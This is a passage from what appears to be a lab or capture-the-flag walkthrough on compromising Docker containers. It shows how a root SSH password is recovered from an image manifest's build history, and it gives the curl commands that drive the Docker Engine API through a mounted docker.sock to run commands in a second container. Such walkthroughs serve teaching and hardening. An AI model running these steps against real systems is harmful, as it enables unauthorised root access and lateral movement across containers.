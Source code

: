 A Manifest file will be downloaded. On checking you could see that there is a history section in the file which contains history of all the commands which were ran when the image was being built. On careful observation one could see that it is exposing a string named SECRET, whose value is being set as the password of root user in the very next command. In further commands, the root user is being enabled for login on SSH server which is running on port 22. As an attacker, we got the hint that the value of SECRET is the password for root user on SSH. Also port 22 was discovered during initial port scan.

5. Try logging into SSH on 192.168.2.44 (Ubuntu) using root user and you would get into the system as a root user.

	`ssh root@192.168.2.44`
	
However you would see that the system which we have just compromised is not actually the target system. It is one of the docker container running on that Ubuntu system. Since we got the password from the manifest file of my-ubuntu:vuln image, so we are inside the container of my-ubuntu:vuln. Also it is obvious by looking at the hostname of the system that we are inside some docker container.

So, Container C1 is compromised.

---

#### B. Comprimising Container C2:

#### Background: 

*Container C1 is already compromised which has docker.sock file mounted at /var/run/docker.sock. This can leveraged to communicate with docker engine and get access to other running containers.*

*To communicate with Docker Engine using docker.sock, 'docker' command line tool should be installed however we are assuming that installation for 'docker' command line is blocked due to security reasons. So, we will be using Unix socket to communicate with Docker Engine.*

#### Steps:

1. List all docker images:

	`curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/images/json | jq`

2. List all the running container:

	`curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json | jq`
	
3. Choose the container id on which the command would be ran. (say 43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b)


4. Now, create exec instance from running container, basically, create an instance to run the command on the container.

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["date"] }'`
	
	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`
